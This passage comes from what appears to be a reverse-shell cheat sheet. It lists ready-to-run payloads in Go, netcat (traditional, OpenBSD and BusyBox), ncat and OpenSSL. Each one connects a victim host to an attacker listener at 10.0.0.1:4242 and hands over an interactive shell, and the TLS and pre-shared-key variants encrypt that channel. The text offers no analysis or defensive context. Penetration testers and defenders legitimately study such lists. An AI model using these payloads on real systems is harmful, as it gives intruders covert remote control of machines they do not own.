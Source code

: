 ```bash
echo 'package main;import"os/exec";import"net";func main(){c,_:=net.Dial("tcp","10.0.0.1:4242");cmd:=exec.Command("/bin/sh");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c;cmd.Run()}' > /tmp/t.go && go run /tmp/t.go && rm /tmp/t.go
```

### Netcat Traditional

```bash
nc -e /bin/sh 10.0.0.1 4242
nc -e /bin/bash 10.0.0.1 4242
nc -c bash 10.0.0.1 4242
```

### Netcat OpenBsd

```bash
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4242 >/tmp/f
```

### Netcat BusyBox

```bash
rm -f /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4242 >/tmp/f
```

### Ncat

```bash
ncat 10.0.0.1 4242 -e /bin/bash
ncat --udp 10.0.0.1 4242 -e /bin/bash
```

### OpenSSL

Attacker:
```powershell
user@attack$ openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
user@attack$ openssl s_server -quiet -key key.pem -cert cert.pem -port 4242
or
user@attack$ ncat --ssl -vv -l -p 4242

user@victim$ mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect 10.0.0.1:4242 > /tmp/s; rm /tmp/s
```

TLS-PSK (does not rely on PKI or self-signed certificates)
```bash
# generate 384-bit PSK
# use the generated string as a value for the two PSK variables from below
openssl rand -hex 48 
# server (attacker)
export LHOST="*"; export LPORT="4242"; export PSK="replacewithgeneratedpskfromabove"; openssl s_server -quiet -tls1_2 -cipher PSK-CHACHA20-POLY1305:PSK-AES256-GCM-SHA384:PSK-AES256-CBC-SHA384:PSK-AES128-GCM-SHA256:PSK-AES128-CBC-SHA256 -psk $PSK -nocert -accept $LHOST:$LPORT
# client (victim)
export RHOST="10.0.0.1"; export RPORT="4242"; export PSK="replacewithgeneratedpskfromabove"; export PIPE="/tmp/`openssl rand -hex 4`"; mkfifo $PIPE; /bin/sh -i < $PIPE 2>&1 | openssl s_client -quiet -tls1_2 -psk $PSK -connect $RHOST:$RPORT > $PIPE; rm $PIPE
```
